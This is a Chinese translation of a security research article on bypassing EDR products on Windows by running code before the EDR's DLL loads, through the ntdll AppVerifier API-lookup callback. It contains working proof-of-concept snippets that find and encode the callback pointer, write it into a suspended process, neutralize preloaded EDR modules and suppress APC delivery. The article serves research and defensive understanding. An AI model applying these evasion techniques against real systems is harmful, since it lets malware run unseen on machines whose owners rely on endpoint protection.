






# [翻译]-通过 EDR 预加载来绕过 EDR - 先知社区

\[翻译\]-通过 EDR 预加载来绕过 EDR

- - -

原文链接：[https://malwaretech.com/2024/02/bypassing-edrs-with-edr-preload.html](https://malwaretech.com/2024/02/bypassing-edrs-with-edr-preload.html)

之前，我写了一篇[文章](https://malwaretech.com/2023/12/an-introduction-to-bypassing-user-mode-edr-hooks.html "文章")，详细介绍了如何利用系统调用来绕过用户层 EDR 挂钩。现在，我想介绍另一种技术，“EDR-Preloading”，它涉及在将 EDR 的 DLL 加载到进程之前运行恶意代码，使我们能够完全阻止它运行。通过抵消 EDR 模块，我们可以正常自由调用函数，而不必担心用户层 hook，因此不需要依赖直接或间接的系统调用。

此技术利用了 EDR 加载其用户层组件的方式中的一些假设和缺陷。EDR 需要将其 DLL 注入到每个进程中才能挂钩用户层函数，但过早运行 DLL 会导致进程崩溃，运行太晚，进程可能已经执行了恶意代码。大多数 EDR 的最佳点是在进程初始化时尽可能晚地启动其 DLL，同时仍然能够在调用进程入口点之前执行所需的所有操作。

从理论上讲，我们所需要的只是在进程初始化中更早地找到一种方法来加载代码，然后我们就可以抢占 EDR。

# Windows 进程加载程序的大体概述

若要了解 EDR DLL 何时可以加载和不能加载，我们需要了解一些进程初始化。

每当创建新进程时，内核都会将目标可执行文件的映像与 ntdll.dll 一起映射到内存中。然后创建一个线程，该线程最终将作为入口点线程。此时，进程只是一个空壳（PEB、TEB 和导入都是未初始化的）。在进程入口点可以被调用之前，必须执行相当多的设置。

每当一个新线程启动时，其起始地址都将设置为 ntdll!LdrInitializeThunk()，负责调用 ntdll!LdrpInitialize()。

ntdll!LdrpInitialize() 有两个用途：

1.  初始化进程（如果尚未初始化）
2.  初始化线程

ntdll!LdrpInitialize() 首先检查全局变量 ntdll!LdrpProcessInitialized，如果设置为 FALSE，则将导致对 ntdll 的调用!LdrpInitializeProcess() 在线程初始化之前。

ntdll!LdrpInitializeProcess() 按照它字面描述的操作，它将设置 PEB，解析进程导入，并加载任何所需的 DLL。

在 ntdll!LdrpInitialize() 的最后 是对 ntdll !ZwTestAlert() 的调用，这是用于运行当前线程的 APC 队列中的所有异步进程调用（APCs）的函数。将代码注入目标进程并调用 ntoskrnl !NtQueueApcThread() ，EDR 驱动程序将在此处执行它们的代码。

一旦线程和进程初始化完成，并且 ntdll!LdrpInitialize() 返回有效值，ntdll!LdrInitializeThunk() 将调用 ntdll!ZwContinue() 来执行传输到内核。然后，内核会将线程指令指针设置为指向 ntdll!RtlUserThreadStart()，它将调用可执行的入口点，进程的生命正式开始。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229235341-b5a8c96e-d71a-1.png)

# 较老的 bypass 技术和缺点

## 早期异步过程调用（APC）队列

由于 APC 以先进先出的顺序执行，因此有时可以通过先将自己的 APC 排入队列来抢占某些 EDR。许多 EDR 通过使用 ntoskrnl !PsSetLoadImageNotifyRoutine() 注册内核回调来监视新进程。每当新进程启动时，它都会自动加载 ntdll.dll 和 kernel32.dll，因此这是检测何时初始化新进程的好方法。通过在挂起状态下启动进程，您可以在初始化之前对 APC 进行排队，从而最终排在队列的前面。这种技术有时被称为“Early Bird injection 早鸟注入”。

APC 队列的问题在于它们长期以来一直用于代码注入，因此 ntdll!NtQueueApcThread() 由大多数 EDR 挂钩和监控。将 APC 队列进入暂停的进程是高度可疑的，并且有据可查。EDR 也有可能挂钩 APC、重新排序 APC 队列或执行任何其他操作以确保其 DLL 首先运行。

## TLS 回调

TLS 回调在 ntdll !LdrpInitializeProcess() 末尾执行，但在 ntdll !ZwTestAlert() 之前，因此，它在任何 APC 之前运行。在应用程序使用 TLS 回调的情况下，某些 EDR 可能会注入代码来截获回调，或者稍微提前加载 EDR DLL 以进行补偿。令我惊讶的是，我测试的一个 EDR 仍然可以使用 TLS 回调绕过。

# 寻找新东西

我的目标很简单，但实际上完全不简单，而且非常耗时。我想找到一种方法，在入口点之前，在 TLS 回调之前，在所有可能干扰我的代码之前执行代码。这意味着对整个过程和 DLL 加载程序进行逆向，以查找我可以使用的任何内容。最后，我找到了我需要的东西。

## 看，AppVerifier 和 ShimEnginer 接口

很久以前，Microsoft 创建了一个名为 AppVerifier 的工具，用于应用程序验证。它的设计是为了在运行时监视应用程序是否存在 bug、兼容性问题等。AppVerifier 的大部分功能都是通过在 ntdll 中添加大量新回调函数来促成的。

在对 AppVerifier 层进行逆向工程时，我实际上发现了两组有用的回调函数（AppVerifier 和 ShimEngine）。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229235325-ac1730fc-d71a-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229235311-a422bf38-d71a-1.png)

引起我注意的两个指针是 ntdll!g\_pfnSE\_GetProcAddressForCaller 和 ntdll!AvrfpAPILookupCallbackRoutine，分别是 ShimEngine 和 AppVerifier 的一部分。这两个指针都在 ntdll !LdrGetProcedureAddressForCaller() 的末尾调用，这是 GetProcAddress() 内部用于解析导出函数地址的函数。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229235258-9c2c82be-d71a-1.png)

这些回调函数是完美的，因为 LdrGetProcedureAddress() 在加载 LdrpInitializeProcess() 时保证 kernelbase.dll 被调用。每当任何尝试使用 GetProcAddress() / LdrGetProcedureAddress() 解析导出时，它也会被调用，包括 EDR，它有很多有趣的潜力。更好的是，这些指针存在于内存部分中，该内存部分在进程初始化之前是可写的。

## 决定对钩子的回调

虽然有很多不错的选择，但我决定使用 AvrfpAPILookupCallbackRoutine，它似乎是在 Windows 8.1 中引入的。虽然我可以使用较旧的回调来与早期的 Windows 版本兼容，但这需要做更多的工作，而且我想让我的 PoC 保持简单。

AppVerifer 接口的其余部分需要安装“验证程序提供程序”，这需要大量的内存操作。ShimEngine 稍微容易一些，但将 g\_ShimsEnabled 设置为 TRUE 会启用所有回调，而不仅仅是我们想要的回调，因此我们必须注册每个回调函数，否则应用程序将崩溃。

较新的 AvrfpAPILookupCallbackRoutine 非常好，原因有两个：

1.  通过设置 ntdll!AvrfpAPILookupCallbacksEnabled，可以独立于 AppVerifier 接口启用它，因此不需要 AppVerifier 提供程序。
2.  两个 ntdll!AvrfpAPILookupCallbacksEnabled 和 ntdlL!AvrfpAPILookupCallbackRoutine 很容易在内存中找到，尤其是在 Windows 10 上。

# EDR-Preloader 简介

出于演示目的，我决定构建一个概念证明程序，该验证利用 AvrfpAPILookupCallbackRoutine 回调在 EDR DLL 之前加载，然后阻止加载。目前，我只在两个主要的 EDR 上测试了它，但理论上它应该可以对抗任何 EDR 代码注入，只需进行一些调整。

您可以在文章底部找到完整的源代码。

## 步骤 1：查找 AppVerifier 回调指针

为了创建一个回调函数，我们需要设置 ntdll!AvrfpAPILookupCallbacksEnabled 和 ntdll!AvrfpAPILookupCallbackRoutine。在 Windows 10 上，这两个变量都位于 ntdll 的 .mrdata 部分的开头，该部分在进程初始化期间是可写的。

ntdll!AvrfpAPILookupCallbacksEnabled 是在 ntdll!LdrpMrdataBase 之后直接找到的（尽管有时 ntdll!LdrpKnownDllDirectoryHandle 位于它之前）。

这两个变量似乎总是相距正好 8 个字节，并且顺序相同。在初始化的进程中，布局应如下所示：

offset+0x00 - ntdll!LdrpMrdataBase（设置为 .mrdata 部分的基址）

offset+0x08 - ntdll!LdrpKnownDllDirectoryHandle（设置为非零值）

offset+0x10 - ntdll!AvrfpAPILookupCallbacksEnabled（设置为零）

offset+0x18 - ntdll!AvrfpAPILookupCallbackRoutine（设置为零）

我们可以在自己的进程中扫描 .mrdata 部分，以查找包含该部分基址的指针，然后之后的第一个 NULL 值将是 AvrfpAPILookupCallbackRoutine。

```plain
ULONG_PTR find_avrfp_address(ULONG_PTR mrdata_base) {
    ULONG_PTR address_ptr = mrdata_base + 0x280;  //the pointer we want is 0x280+ bytes in
    ULONG_PTR ldrp_mrdata_base = NULL;

    for (int i = 0; i < 10; i++) {
        if (*(ULONG_PTR*)address_ptr == mrdata_base) {
            ldrp_mrdata_base = address_ptr;
            break;
        }
        address_ptr += sizeof(LPVOID);  // skip to the next pointer
    }

    address_ptr = ldrp_mrdata_base;

    // AvrfpAPILookupCallbackRoutine should be the first NULL pointer after LdrpMrdataBase
    for (int i = 0; i < 10; i++) {
        if (*(ULONG_PTR*)address_ptr == NULL) {
            return address_ptr;
        }
        address_ptr += sizeof(LPVOID);  // skip to the next pointer
    }
    return NULL;
}
```

## 第 2 步：设置回调以调用我们的恶意代码

设置回调的最简单方法是在挂起状态下启动我们自己的进程的第二个副本。由于 ntdll 在每个进程中都位于相同的地址，因此我们只需要在自己的进程中找到回调指针即可。一旦我们的进程启动但处于挂起状态，我们就可以使用 WriteProcessMemory() 来设置指针。

我们还可以将这种技术用于进程空心化、shellcode 注入等，因为它允许我们在不创建或劫持线程或排队 APC 的情况下执行代码。但对于这个 PoC，我们将保持简单。

注意：由于许多 NTDLL 指针都是加密的，因此我们不能只设置指向目标地址的指针。我们必须先加密它。幸运的是，密钥是相同的值，并且存储在所有进程中的同一位置。

```plain
LPVOID encode_system_ptr(LPVOID ptr) {
    // get pointer cookie from SharedUserData!Cookie (0x330)
    ULONG cookie = *(ULONG*)0x7FFE0330;

    // encrypt our pointer so it'll work when written to ntdll
    return (LPVOID)_rotr64(cookie ^ (ULONGLONG)ptr, cookie & 0x3F);
}
```

现在我们可以编写指针并使用 WriteProcessMemory() 将 AvrfpAPILookupCallbacksEnabled 设置为 1：

```plain
// ntdll pointer are encoded using the system pointer cookie located at SharedUserData!Cookie
    LPVOID callback_ptr = encode_system_ptr(&My_LdrGetProcedureAddressCallback);

    // set ntdll!AvrfpAPILookupCallbacksEnabled to TRUE
    uint8_t bool_true = 1;

    // set ntdll!AvrfpAPILookupCallbackRoutine to our encoded callback address
    if (!WriteProcessMemory(pi.hProcess, (LPVOID)(avrfp_address+8), &callback_ptr, sizeof(ULONG_PTR), NULL)) {
        printf("Write 2 failed, error: %d\n", GetLastError());
    }

    if (!WriteProcessMemory(pi.hProcess, (LPVOID)avrfp_address, &bool_true, 1, NULL)) {
        printf("Write 3 failed, error: %d\n", GetLastError());
    }
```

## 第 3 步：执行回调并中和 EDR

一旦我们在挂起的进程上调用 ResumeThread()，每次调用 LdrpGetProcedureAddress() 时都会执行我们的回调，其中第一个应该是在 LdrpInitializeProcess() 加载 kernelbase.dll 时。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229235150-738d4f1e-d71a-1.png)

注意：当我们触发回调时，kernelbase.dll 没有完全加载，并且触发发生在 LdrLoadDll 内部，因此仍然获取加载程序锁。尚未加载的 Kernelbase 意味着我们只能调用 ntdll 函数，并且加载程序锁会阻止我们启动任何线程或进程，以及加载 DLL。

由于我们能做的事情受到高度限制，因此最简单的操作方案是阻止加载 EDR DLL，然后等到进程完全初始化后再启动恶意软件。

为了确保我测试的 EDR 得到适当的中和，我采取了多管齐下的方法。

### DLL 破坏

在流程生命周期的早期，只应加载 ntdll.dll、kernel32.dll 和 kernelbase.dll。某些 EDR 可能会抢先将其 DLL 映射到内存中，但要等到稍后再调用入口点。虽然我们可以通过调用 ntdll !LdrUnloadDll() 来卸载这些 DLL 一旦加载程序锁被释放（或手动执行），一个快速而肮脏的解决方案就是破坏它们的入口点。

我们要做的是遍历 LDR 模块列表，并替换任何不应该存在的 DLL 的入口点地址。

```plain
DWORD EdrParadise() {
    // we'll replaced the EDR entrypoint with this equally useful function
    // todo: stop malware

    return ERROR_TOO_MANY_SECRETS;
}

void DisablePreloadedEdrModules() {
    PEB* peb = NtCurrentTeb()->ProcessEnvironmentBlock;
    LIST_ENTRY* list_head = &peb->Ldr->InMemoryOrderModuleList;
    LIST_ENTRY* list_entry = list_head->Flink->Flink;

    while (list_entry != list_head) {
        PLDR_DATA_TABLE_ENTRY2 module_entry = CONTAINING_RECORD(list_entry, LDR_DATA_TABLE_ENTRY2, InMemoryOrderLinks);

        // only the below DLLs should be loaded this early, anything else is probably a security product
        if (SafeRuntime::wstring_compare_i(module_entry->BaseDllName.Buffer, L"ntdll.dll") != 0 &&
            SafeRuntime::wstring_compare_i(module_entry->BaseDllName.Buffer, L"kernel32.dll") != 0 &&
            SafeRuntime::wstring_compare_i(module_entry->BaseDllName.Buffer, L"kernelbase.dll") != 0) {

            module_entry->EntryPoint = &EdrParadise;
        }

        list_entry = list_entry->Flink;
    }
}
```

### 禁用 APC 调度程序

当 APCs 排队到线程时，它们会被 ntdll !KiUserApcDispatcher() 处理，然后调用 ntdll!NtContinue() 将线程返回到其原始上下文。通过挂钩 KiUserApcDispatcher 并将其替换为我们自己的函数，该函数仅在循环中调用 NtContinue()，任何 APC 都不能排队到我们的进程中（包括来自 EDR 内核驱动程序的 APC）。

```plain
; simple APC dispatcher that does everything except dispatch APCs
KiUserApcDispatcher PROC
  _loop:
    call GetNtContinue
    mov rcx, rsp
    mov rdx, 1
    call rax
    jmp _loop
  ret
KiUserApcDispatcher ENDP
```

### 代理 LdrLoadDll 调用

通过在 ntdll!LdrLoadDll() 上放置一个钩子，我们可以监视正在加载的 DLL。如果任何 EDR 尝试使用 LdrLoadDll 加载其 DLL，我们可以卸载或禁用它。理想情况下，我们可能想要挂钩 ntdll!LdrpLoadDll()，它是较低级别的，由一些 EDR 直接调用，但为了简单起见，我们将只使用 LdrLoadDll。

```plain
// we can use this hook to prevent new modules from being loaded (though with both EDRs I tested, we don't need to)
NTSTATUS WINAPI LdrLoadDllHook(PWSTR search_path, PULONG dll_characteristics, UNICODE_STRING* dll_name, PVOID* base_address) {

    //todo: DLL create a list of DLLs to either be allowed or disallowed

    return OriginalLdrLoadDll(search_path, dll_characteristics, dll_name, base_address);
}
```

# 最后的思考

虽然此 PoC 仅适用于 Windows 10 64 位，但该技术至少早在 Windows 7 的系统上就可行（我没有检查过 XP 或 Vista）。但是，在 Windows 10 版本以下找到正确的偏移量更加困难。对于更可靠的方法，我建议使用反汇编程序。无论哪种方式，这都是一个非常有趣的周末项目，希望有人能够从中学到一些东西。

您可以在此处找到完整的源代码：[github.com/MalwareTech/EDR-Preloader](https://xz.aliyun.com/t/github.com/MalwareTech/EDR-Preloader "github.com/MalwareTech/EDR-Preloader")

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229235213-81a6b3b0-d71a-1.png)
